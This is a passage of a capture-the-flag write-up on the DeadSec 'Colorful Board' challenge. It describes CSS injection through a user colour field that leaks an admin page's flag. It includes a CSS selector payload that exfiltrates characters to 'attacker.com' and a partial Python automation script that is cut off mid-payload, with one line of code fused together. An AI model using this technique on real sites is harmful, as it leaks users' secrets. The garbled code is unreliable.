 
And we got the first part!

![Colorful Board](/static/images/deadsec-writeups/colorful-board-01.png)

- Getting the first part of the flag

Now to get the first part I spent some hours looking around, until I thought that the challenge name should mean something especially that when we do register we can specify a color to have for our user account which is used in some places in the application.

![Colorful Board](/static/images/deadsec-writeups/colorful-board-02.png)

How is that relevant? We can use this to inject some CSS/XSS(doesn't work) to leak the admin's page or some of it's content when doing report. Now let's skip the XSS though I spent most of the time trying to make it work, but on the website nothing reflects and outside the website we can't access it's content or do CSRF because of the same-origin policy.

So now we have [CSS injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection) we need a good page to leak the flag from, the `/post/edit/:id` which the admin can access has what we need
```sh
common/views/post-edit.hbs:            color: {{{ user.personalColor }}}
```
![Colorful Board](/static/images/deadsec-writeups/colorful-board-03.png)

Now from the hacktricks we know we can leak chars from the page by using the `background-image` like this for example:
```css
input[class=user][value^="D"] {
    background-image: url("http://attacker.com/flag/D");
}
```
If the flag starts with `D` we will get a request to `http://attacker.com/flag/D` and so on for the rest of the flag.

Now all we need is a script to generate accounts with different colors chars to see what the flag looks like, I have seen many solves and all of them were semi-automated because of how this whole thing is. So here is a little different approach 🙂
```py
#!/usr/bin/python3

import flask
import requests
from string import digits, ascii_letters
import re
import threading
from requests.adapters import HTTPAdapter, Retry

app = flask.Flask(__name__)

url = "https://eb7655042aed5ebaba63a259.deadsec.quest/"
server = "http://REDACTED/"
charset = ascii_letters + digits + "_{}-"flag = "DEAD{"

max_threads = 5


def check_flag(i):
    payload = {
        "username": f"ozs{flag + i}",
        "password": "oz",
    }
    payload["personalColor"] = (
        f"blue;"
        + "}"
        + f"input[class='user'][value^='{flag + i}']"
```